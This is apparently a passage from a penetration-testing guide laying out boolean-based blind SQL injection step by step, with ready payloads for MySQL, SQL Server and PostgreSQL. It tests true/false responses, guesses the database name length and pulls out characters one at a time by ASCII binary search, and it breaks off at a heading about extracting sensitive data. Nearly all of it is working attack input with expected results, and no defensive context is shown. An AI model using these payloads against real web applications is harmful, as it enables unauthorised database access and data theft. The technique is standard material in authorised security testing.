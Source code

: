 ### Move 1: Confirm True/False Behavior

```sql
' AND 1=1 --+    → should match baseline (TRUE)
' AND 1=2 --+    → should differ from baseline (FALSE)
```

**Expected result:**
TRUE condition: page looks normal, same length as baseline  
FALSE condition: page changes (different length, missing content, or error).[7][3]

### Move 2: Determine Target String Length

**MySQL:**
```sql
' AND LENGTH(database())=1 --+
' AND LENGTH(database())=2 --+
...
' AND LENGTH(database())=8 --+    → TRUE response means 8 characters
```

**Microsoft SQL Server:**
```sql
' AND LEN(DB_NAME())=8 --
```

**PostgreSQL:**
```sql
' AND LENGTH(current_database())=8 --
```

**Expected result:**
When the guess equals the actual length, you get a TRUE response.[8][3]

### Move 3: Extract Characters Using Binary Search

Use ASCII values with binary search (range 32-126):

**MySQL template:**
```sql
' AND ASCII(SUBSTRING(database(),1,1))>64 --+
' AND ASCII(SUBSTRING(database(),1,1))>96 --+
' AND ASCII(SUBSTRING(database(),1,1))>112 --+
```

**Procedure:**
1. Start with mid-point 77 (between 32 and 126)
2. If TRUE → character is >77, search 78-126
3. If FALSE → character is ≤77, search 32-77
4. Repeat until you narrow down to single ASCII value
5. Convert ASCII to character (65=A, 97=a, etc.)
6. Increment position (1→2→3) and repeat

**Expected result:**
After 6-7 tests per character, you recover the entire string character-by-character.[9][3]

### Move 4: Extract Sensitive Data
